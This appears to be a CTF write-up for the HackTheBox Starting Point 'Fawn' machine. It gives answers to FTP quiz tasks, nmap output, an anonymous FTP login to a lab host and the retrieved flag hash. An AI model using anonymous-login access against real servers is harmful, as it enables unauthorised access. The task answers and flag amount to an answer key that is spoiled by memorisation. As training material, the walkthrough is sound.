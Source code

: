 # HackTheBox - Starting Point: Fawn Write-up

## Introduction

This write-up covers the steps taken to solve the Fawn machine on HackTheBox's Starting Point. The goal is to gain root access to the machine and retrieve the flags. This guide is intended for educational purposes and to help others understand the methodology used in CTF challenges.

## Walktrough :

- **Task 1:** What does the 3-letter acronym FTP stand for? 
    > Answer :  File Transfer Protocol 

- **Task 2:**  Which port does the FTP service listen on usually? 
    > Answer :  21

- **Task 3:** FTP sends data in the clear, without any encryption. What acronym is used for a later protocol designed to provide similar functionality to FTP but securely, as an extension of the SSH protocol?

    <small> [How SFTP work](https://www.thruinc.com/blog/sftp-basics/) </small>
    > Answer : SFTP 

- **Task 4:**  What is the command we can use to send an ICMP echo request to test our connection to the target? 
    > Answer : ping

    To answer the task 5 question we need to perform a port scan with nmap : 

    ```bash
    $ nmap 10.129.26.80
    Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-01-29 10:44 CET
        Nmap scan report for 10.129.26.80
        Host is up (0.029s latency).
        Not shown: 999 closed tcp ports (conn-refused)
        PORT   STATE SERVICE VERSION
        21/tcp open  ftp     vsftpd 3.0.3
        | ftp-syst: 
        |   STAT: 
        | FTP server status:
        |      Connected to ::ffff:10.10.14.189
        |      Logged in as ftp
        |      TYPE: ASCII
        |      No session bandwidth limit
        |      Session timeout in seconds is 300
        |      Control connection is plain text
        |      Data connections will be plain text
        |      At session startup, client count was 3
        |      vsFTPd 3.0.3 - secure, fast, stable
        |_End of status
        | ftp-anon: Anonymous FTP login allowed (FTP code 230)
        |_-rw-r--r--    1 0        0              32 Jun 04  2021 flag.txt
        Service Info: OS: Unix
    ```

- **Task 5:**   From your scans, what version is FTP running on the target? 
    > Answer : vsftpd 3.0.3

- **Task 6:** From your scans, what OS type is running on the target? 
    > Answer : Unix

- **Task 7:**  What is the command we need to run in order to display the 'ftp' client help menu? 
    > Answer : ftp -?

- **Task 8:**   What is username that is used over FTP when you want to log in without having an account? 
    > Answer : anonymous

- **Task 9:**  What is the response code we get for the FTP message 'Login successful'? 
    > Answer : 230

- **Task 10:**  There are a couple of commands we can use to list the files and directories available on the FTP server. One is dir. What is the other that is a common way to list files on a Linux system. 
    > Answer : ls

- **Task 11:**   What is the command used to download the file we found on the FTP server?  
    > Answer : get


To get the flag, we need to connect to the FTP server on the target machine. After logging in as anonymous with a blank password, we can see that a `flag.txt` file is stored in the main directory.

```bash
$ ftp 10.129.26.80
Connected to 10.129.26.80.
220 (vsFTPd 3.0.3)
Name (10.129.26.80:yannis): anonymous
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.

ftp> ls
229 Entering Extended Passive Mode (|||8606|)
150 Here comes the directory listing.
-rw-r--r--    1 0        0              32 Jun 04  2021 flag.txt
226 Directory send OK.

ftp> get flag.txt
local: flag.txt remote: flag.txt
229 Entering Extended Passive Mode (|||33773|)
150 Opening BINARY mode data connection for flag.txt (32 bytes).
100% |**************************************************************************|   32       31.88 KiB/s    00:00 ETA
226 Transfer complete.
```

Then, we can run a `cat` command to see the flag.txt file content on our local machine : 
```bash
$ cat flag.txt 
035db21c881520061c53e0536e44f815
```
- **Submit root flag:** : 
    > 035db21c881520061c53e0536e44f815


